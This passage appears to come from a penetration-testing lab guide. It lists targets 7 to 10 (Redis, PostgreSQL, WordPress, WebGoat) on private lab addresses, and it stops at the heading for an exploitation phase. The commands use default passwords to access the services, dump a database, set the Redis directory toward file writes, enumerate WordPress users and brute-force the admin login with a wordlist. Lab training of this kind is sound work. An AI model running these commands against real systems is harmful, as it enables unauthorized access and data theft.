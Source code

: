 ### Target 7: Redis Server (172.16.0.80)
```bash
# Connect to Redis
redis-cli -h 172.16.0.80
# AUTH redis123

# Get all keys
redis-cli -h 172.16.0.80 -a redis123 --scan

# Check for command execution
redis-cli -h 172.16.0.80 -a redis123 config set dir /tmp/
```

### Target 8: PostgreSQL (172.16.0.90)
```bash
# Connect
psql -h 172.16.0.90 -U postgres
# Password: postgres

# List databases
psql -h 172.16.0.90 -U postgres -c "\l"

# Dump database
pg_dump -h 172.16.0.90 -U postgres testdb > testdb.sql
```

### Target 9: WordPress (172.16.0.100)
```bash
# Scan for vulnerabilities
wpscan --url http://172.16.0.100 --enumerate u,p,t,tt

# Brute force admin
wpscan --url http://172.16.0.100 -U admin -P /usr/share/wordlists/rockyou.txt

# Check for xmlrpc
curl -X POST http://172.16.0.100/xmlrpc.php
```

### Target 10: WebGoat (172.16.0.110)
```bash
# Access WebGoat
curl http://172.16.0.110:8080/WebGoat

# Default: guest:guest
# Practice various web vulnerabilities
```

---

## Phase 3: Exploitation
